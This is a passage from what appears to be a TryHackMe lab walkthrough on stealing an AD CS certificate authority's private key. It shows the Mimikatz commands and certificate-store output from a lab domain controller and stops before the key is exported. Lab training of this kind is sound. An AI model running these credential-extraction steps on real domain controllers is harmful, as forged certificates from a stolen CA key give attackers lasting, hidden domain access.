 The private key of the CA is stored on the CA server itself. If the private key is not protected through hardware-based protection methods such as an Hardware Security Module (HSM), which is often the case for organisations that just use Active Directory Certificate Services (AD CS) for internal purposes, it is protected by the machine Data Protection API (DPAPI). This means we can use tools such as Mimikatz and SharpDPAPI to extract the CA certificate and thus the private key from the CA. Mimikatz is the simplest tool to use, but if you want to experience other tools, have a look [here](https://pentestlab.blog/2021/11/15/golden-certificate/). Use SSH to authenticate to THMDC.za.tryhackme.loc using the Administrator credentials from Task 2, create a unique directory for your user, move to it, and load Mimikatz:

```shell-session
za\administrator@DC C:\Users\Administrator.ZA>mkdir <username> 
za\administrator@DC C:\Users\Administrator.ZA>cd <username>
za\administrator@DC C:\Users\Administrator.ZA\am0>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53 
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/ 

mimikatz #
```

Let's first see if we can view the certificates stored on the DC:

```shell-session
mimikatz # crypto::certificates /systemstore:local_machine
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'My'

 0.
    Subject  :
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 040000000000703a4d78090a0ab10400000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 4/27/2022 8:32:43 PM -> 4/27/2023 8:32:43 PM
    Hash SHA1: d6a84e153fa326554f095be4255460d5a6ce2b39
        Key Container  : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        Provider       : Microsoft RSA SChannel Cryptographic Provider
        Provider type  : RSA_SCHANNEL (12)
        Type           : AT_KEYEXCHANGE (0x00000001)
        |Provider name : Microsoft RSA SChannel Cryptographic Provider
        |Key Container : te-DomainControllerAuthentication-5ed52c94-34e8-4450-a751-a57ac55a110f
        |Unique name   : dbe5782f91ce09a2ebc8e3bde464cc9b_32335b3b-2d6f-4ad7-a061-b862ac75bcb1
        |Implementation: CRYPT_IMPL_SOFTWARE ;
        Algorithm      : CALG_RSA_KEYX
        Key size       : 2048 (0x00000800)
        Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
        Exportable key : NO
[....]
```
